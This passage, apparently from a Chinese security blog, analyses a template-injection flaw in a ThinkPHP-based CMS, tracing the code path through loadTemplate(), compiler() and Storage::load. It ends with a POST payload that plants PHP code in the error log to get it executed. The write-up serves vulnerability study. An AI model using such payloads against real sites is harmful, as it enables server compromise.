 ```
  

```

调用loadTemplate()，将其存入templateCacheFile中  
我们跟入loadTemplate()方法：

```
 `/**` `* 加载主模板并缓存` `* @access public` `* @param string $templateFile 模板文件` `* @param string $prefix 模板标识前缀` `* @return string` `* @throws ThinkExecption` `*/` `public function loadTemplate ($templateFile,$prefix='') {` `if(is_file($templateFile)) {` `$this->templateFile    =  $templateFile;` `// 读取模板文件内容` `$tmplContent =  file_get_contents($templateFile);` `}else{` `$tmplContent =  $templateFile;` `}` `// 根据模版文件名定位缓存文件``...` `// 判断是否启用布局``...` `// 编译模板内容` `$tmplContent =  $this->compiler($tmplContent);` `Storage::put($tmplCacheFile,trim($tmplContent),'tpl');` `return $tmplCacheFile;` `}`
```

```
  

```

精简了下代码，先获取文件内容，然后存入$tmplContent中，关注最后三行，调用compiler()方法对模板进行编译，做一些简单处理：  
  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

存入缓存文件中，然后返回，于是我们再回归到fetch()方法，调用了Storage::load，位于ThinkPHP/Library/Think/Storage/Driver/File.class.php：

```
 `/**` `* 加载文件` `* @access public` `* @param string $filename  文件名` `* @param array $vars  传入变量` `* @return void``     */` `public function load($_filename,$vars=null){` `if(!is_null($vars)){` `extract($vars, EXTR_OVERWRITE);` `}` `include $_filename;` `}`
```

```
  

```

这里直接就包含文件，最终造成了模板注入

  

**利用：**

而利用日志记录错误这个思路我们就可以直接在请求中发送如下payload：  

```
<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

```
  

```

为什么不能使用get来请求，因为url在提交给后台处理会被进行url编码，从而造成包含不成功，因此要采取post方式发送payload  
  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
